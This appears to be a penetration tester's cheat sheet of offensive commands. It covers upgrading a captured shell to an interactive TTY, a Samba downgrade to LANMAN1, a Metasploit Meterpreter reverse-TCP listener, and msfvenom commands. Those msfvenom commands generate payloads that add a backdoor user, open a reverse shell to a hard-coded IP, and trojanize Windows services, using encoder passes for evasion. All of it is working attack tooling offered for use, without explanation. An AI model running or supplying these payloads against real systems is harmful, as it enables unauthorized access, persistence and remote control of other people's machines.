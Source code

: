 
# UPGRADE SHELL

python -c 'import pty; pty.spawn("/bin/bash")'

^Z

stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'

stty raw -echo; fg

stty rows ROWS cols COLS

export TERM=xterm-256color

exec /bin/bash

# Windows upgrade shell

set PATH=%SystemRoot%\system32;%SystemRoot%;
set PATH=%SystemRoot%\system32;%SystemRoot%;


# SAMBA CONFIG

/etc/samba/smb.conf
client min protocol = LANMAN1

# METASPLOIT LISTENER


Listener

sudo msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; run; exit -y"

# MSFVENOM

msfvenom -p windows/adduser -f exe -o account.exe USER=hack3r PASS=Fuckyou123 -e x86/shikata_ga_nai -i 20

msfvenom -p windows/exec CMD=calc.exe -f dll -o calc.dll

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.164 LPORT=443 EXITFUNC=process -b "\x00" -f js_le    


Trojanize Windows Service:

msfvenom -p windows/exec CMD=calc.exe -f exe-service

msfvenom -p windows/adduser -f exe-service -o service.exe USER=hack3r PASS=s3cret^s3cret -e x86/shikata_ga_nai -i 20

